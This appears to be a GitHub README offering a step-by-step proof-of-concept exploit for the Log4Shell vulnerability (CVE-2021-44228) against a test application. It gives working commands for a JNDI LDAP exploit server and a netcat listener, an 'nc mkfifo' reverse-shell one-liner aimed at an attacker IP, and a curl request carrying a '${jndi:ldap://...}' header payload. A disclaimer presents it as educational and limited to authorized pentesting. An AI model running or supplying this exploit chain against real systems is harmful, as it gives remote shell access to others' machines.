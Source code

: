 # LOg4j

A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability.

Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.

## Proof-of-concept (POC)

#### Step 1 : Run Docker File which Include SpringBoot Vulnerable Application

```bash
cd log4shell-vulnerable-app
sudo docker run --rm -it -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
cd ..
```

#### Step 2 : Run the LDAP Server and Http Server

```bash
cd Log4shell_JNDIExploit
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <Your Attacking Machine IP>
```

#### Step 3 : Run the netcat Listner where you get reverse shell

```bash
nc -lvp <Port you want for Listner>
```

#### Step 4 Curl the Application with Malicious Code

```bash
[+] Step 1 : goto https://ssl-proxy.my-addr.org/myaddrproxy.php/https/www.revshells.com/
[+] Step 2 : Enter your Attacking Machine IP and Netcat Port which you have used before
[+] Step 3 : Select nc mkfifo in shell Type
[+] Step 4 : Copy the command which look like "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.119.21.67 1188 >/tmp/f"
[+] Step 5 : goto https://gchq.github.io/CyberChef/
[+] Step 6 : Select To Base64 and Enter "A-Za-z0-9-_" in Alphabet
[+] Step 7 : Paste the command you had copied from Reverse Shell Generator and Paste it in Input Box
[+] Step 8 : Copy the String from the Output box that is the Base64 encoding of the Malicious Command which will lead you to Remote shell
[+] Step 9 : Form a Curl request in this manner ⇩
    curl -H 'X-Api-Version: ${jndi:ldap://<Attacking Machine IP>:1389/Basic/Command/Base64/<Base64 Command you just copied Step 8>}' http://localhost:8080
```

## Disclaimer

This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: https://log4shell.tools/).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.

## Reference

[log4shell-vulnerable-app] by christophetd</br>
[Log4shell_JNDIExploit] re-uploaded by black9

[log4shell-vulnerable-app]: https://github.com/christophetd/log4shell-vulnerable-app
[log4shell_jndiexploit]: https://github.com/black9/Log4shell_JNDIExploit.git
